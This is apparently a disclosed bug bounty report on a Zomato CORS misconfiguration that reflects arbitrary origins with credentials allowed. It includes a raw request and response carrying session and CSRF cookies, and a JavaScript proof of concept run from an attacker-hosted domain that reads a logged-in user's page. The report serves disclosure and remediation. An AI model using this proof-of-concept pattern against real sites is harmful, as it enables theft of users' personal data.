 # [www.zomato.com] CORS Misconfiguration, could lead to disclosure of sensitive information

## Report Details
- **Report ID**: 426165
- **URL**: https://hackerone.com/reports/426165
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-10-20T13:03:09.307Z
- **Disclosed**: 2018-11-28T03:56:25.552Z

## Reporter
- **Username**: ahd911
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: zomato

## Vulnerability Information
## Summary:
Cross Origin Resource Sharing Misconfiguration | Lead to sensitive information.

## Description:
An HTML5 cross-origin resource sharing (CORS) policy controls whether and how content running on other domains can perform two-way interaction with the domain that publishes the policy. The policy is fine-grained and can apply access controls per-request based on the URL and other features of the request.
Trusting arbitrary origins effectively disables the same-origin policy, allowing two-way interaction by third-party web sites. Unless the response consists only of unprotected public content, this policy is likely to present a security risk.
If the site specifies the header Access-Control-Allow-Credentials: true, third-party sites may be able to carry out privileged actions and retrieve sensitive information. Even if it does not, attackers may be able to bypass any IP-based access controls by proxying through users' browsers.

Platform(s) Affected: [website]

*.zomato.com

## Steps To Reproduce:

## Proof Of Concept 1:

## Request:

GET /abudhabi HTTP/1.1
Host: www.zomato.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.zomato.com/
Cookie: zl=en; fbtrack=0c8f198276217196ed64230da7ec8506; _ga=GA1.2.1887254439.1538912146; _gcl_au=1.1.2098169460.1538912146; dpr=1; __utmx=141625785.FQnzc5UZQdSMS6ggKyLrqQ$0:NaN; __utmxx=141625785.FQnzc5UZQdSMS6ggKyLrqQ$0:1540032478:8035200; G_ENABLED_IDPS=google; cto_lwid=8a9f6540-307d-4333-bd04-96eebdec23b1; SL_C_23361dd035530_KEY=05a4e27ac591b9ca633a4fe9b5fdc3875e22560f; fbcity=57; zhli=1; al=0; _gid=GA1.2.1724569398.1539946684; ██████████; session_id=c541029346655-a68e-4a04-b2f8-ef1992b2e230; AMP_TOKEN=%24NOT_FOUND; csrf=a84df4c9f61aadf31a4f1dd4ca48be6e; ak_bmsc=2C67C71C92EB260D24B70A22BB690F2C4F8C5EB21A5B00008607CB5B69982B47~plvdYiMgFHceTWhzyAX5U631p9L1788qeXL/lAyNPHymsMAnv6mHZSJNA05zvLH2oIoYhZh2IVuMrSYmbcah8ADEJOyyFO27PZ5N/H1Cdvks7MZe3E9Y91EtRL8tbHwWka49I9RjDSrHVcgq5z4OIk8dfQd05szzsPKkleP3Jp9MJD1rVdLEcg2cCHoQYw5ciHDvhZtMWN6RD0DxZBoe3LPsfb37q5xqHTQ8h9XpyqUzc=; _gat_city=1; _gat_country=1; _gat_global=1; _gat_globalV3=1; bm_sv=EDBA03CA40AC8D77509922CAA98130B4~OXaAg7LsgySzeWnqd9TzoaW6pGtPv7Ut2dYfUp7otuPnD1uJi3BUwSCYQiDP4q92NaiK6GLXT8xxPmWSgspcRyYjatr3Zc5lDyt8+MMSsDmykSMruOC6+5BPCXCEX+HulBpygHFzTAQJSoPSYxgsSjsbymzdQq/Q90b/MvSGLbo=
Connection: close
Upgrade-Insecure-Requests: 1
Origin: developersxzomato.com

## Response

HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 127168
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block; report=https://www.zomato.com/cspreport.php
Content-Security-Policy: frame-ancestors https://*.nearbuystag.in https://*.nearbuy.com 'self'; default-src *; font-src * data:; img-src * data:; media-src * blob:; script-src 'self' 'unsafe-inline' 'unsafe-eval' *.jwpcdn.com *.cloudflare.com *.twitter.com *.recruiterbox.com *.zdev.net *.zdev.net:8080 *.zomato.com *.tinymce.com *.gstatic.com *.googleapis.com *.google.com *.facebook.com sdk.accountkit.com *.doubleclick.net *.googlesyndication.com *.nr-data.net *.newrelic.com *.google-analytics.com *.akamaihd.net *.zmtcdn.com *.googletagmanager.com *.facebook.net *.googleadservices.com *.cdninstagram.com *.googlesyndication.com *.inspectlet.com *.spreedly.com *.instagram.com *.twimg.com *.mouseflow.com *.usersnap.com d3mvnvhjmkxpjz.cloudfront.net *.serving-sys.com *.sushissl.com *.pubnub.com tsgw.tataelxsi.co.in *.branch.io app.link cdn.poll-maker.com *.ampproject.org *.smartlook.com *.hotjar.com dashboard.hypertrack.io zba.se *.googletagmanager.com *.eff.org cdn.plot.ly *.zedo.com *.bing.com *.criteo.net *.criteo.com mddigital.in; style-src * 'unsafe-inline';
Access-Control-Allow-Origin: developersxzomato.com
Access-Control-Allow-Credentials: true
Access-Control-Allow-Methods: GET, POST
Access-Control-Allow-Headers: Content-Type, X-ZOMATO-CSRFT, *
Server: Zomato
Strict-Transport-Security: max-age=31536000
Expires: Sat, 20 Oct 2018 12:29:00 GMT
Pragma: no-cache
Date: Sat, 20 Oct 2018 12:29:00 GMT
Connection: close
Set-Cookie: LEL_JS=true; expires=Sat, 20-Oct-2018 12:59:00 GMT; Max-Age=1800
Cache-Control: max-age=0, no-cache, no-store, no-transform
Vary: Accept-Encoding, User-Agent
Strict-Transport-Security: max-age=31536000
Set-Cookie: bm_sv=EDBA03CA40AC8D77509922CAA98130B4~OXaAg7LsgySzeWnqd9TzoaW6pGtPv7Ut2dYfUp7otuPnD1uJi3BUwSCYQiDP4q92NaiK6GLXT8xxPmWSgspcRyYjatr3Zc5lDyt8+MMSsDnq267a1bOhniBmABAbrga8gmdQdjDNE5GsLvrlCcm07Q3hffJKqLj7hIkMIJhtw4g=; Domain=.zomato.com; Path=/; Max-Age=1053; HttpOnly

##POC 2

Open http://developersxzomato.com/ in browser and click ## Exploit .

## or:

Open any browser and go to  http://developersxzomato.com/ then inspect the page and go to console.
run the following code in console and you would find it pops up user information var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://www.zomato.com/abudhabi',true); req.withCredentials = true; req.send('{}'); function reqListener() { alert(this.responseText); };


## How to fix:
Rather than using a wildcard or programmatically verifying supplied origins, use a whitelist of trusted domains.

## Note: 
* Take note from request I inject a header Origin: developersxzomato.com then from response it returns Access-Control-Allow-Origin: developersxzomato.com Which mean there is CORS misconfig here.

* All testing was made by a test user ## ahd911 and only this user .

* I hosted a website which is ## developersxzomato.com to proof this vulnerability.

## Impact

## Impact:
Attacker would treat many victims to visit attacker's website, if victim is logged in, then his personal information is recorded in attacker's server.

If the site specifies the header Access-Control-Allow-Credentials: true, third-party sites may be able to carry out privileged actions and retrieve sensitive information. Even if it does not, attackers may be able to bypass any IP-based access controls by proxying through users' browsers.

## Attachments
- Zomato_CORS.png

